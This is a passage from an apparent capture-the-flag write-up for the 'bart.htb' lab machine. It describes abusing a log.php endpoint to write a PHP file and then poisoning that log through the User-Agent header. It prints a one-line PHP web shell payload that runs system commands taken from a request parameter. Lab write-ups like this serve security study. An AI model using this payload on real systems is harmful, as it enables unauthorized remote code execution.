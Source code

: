 ![](./images/16.png)

- So after playing around, each time someone visits `log.php` we have a new record in http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey
  - We need to visit `http://internal-01.bart.htb/log/log.php?filename=log.php&username=harvey`

![](./images/17.png)

- We can try `log poisoning`
  - We can change our `User-Agent` to `<?php system($_REQUEST['cmd']); ?>` when visiting http://internal-01.bart.htb/log/log.php?filename=log.php&username=harvey
  - Then we add new parameter and check the response where we get our `rce`

![](./images/18.png)
